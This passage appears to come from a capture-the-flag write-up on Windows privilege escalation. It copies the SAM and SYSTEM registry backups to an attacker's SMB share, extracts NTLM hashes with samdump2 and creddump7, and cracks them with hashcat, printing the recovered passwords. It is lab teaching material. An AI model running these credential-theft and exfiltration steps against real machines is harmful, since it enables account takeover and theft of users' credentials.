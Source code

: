 ![](img/backups.png)

Then, we can copy them:

```cmd
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

Usually, tools like `samdump2` or `samdump` can be used to dump the hashes from these files.

```console
root@kali:~/thm/windows10privesc# samdump2 SYSTEM SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                            
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                    
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                         
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                         
:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                   
admin:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
```

> All hashes are the same, there is definitely an error.

We can also use the `creddump7` suite:

```console
root@kali:~/thm/windows10privesc# git clone https://github.com/Tib3rius/creddump7
root@kali:~/thm/windows10privesc# python3 creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da::
```

> Format: `<USERNAME>:<UID>:<LM_HASH_OF_EMPTY_STRING>(deprecated):<NTLM_HASH>::`

Then we can crack them using `hashcat`:

```
root@kali:~/thm/windows10privesc# cat > hashes.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
^C
root@kali:~/thm/windows10privesc# hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting..
...
a9fdfa038c4b75ebc76dc855dd74f0da:password123     
31d6cfe0d16ae931b73c59d7e0c089c0:                
91ef1073f6ae95f5ea6ace91c09a963a:password321     
fc525c9683e8fe067095ba2ddc971889:Passw0rd! 
...
```
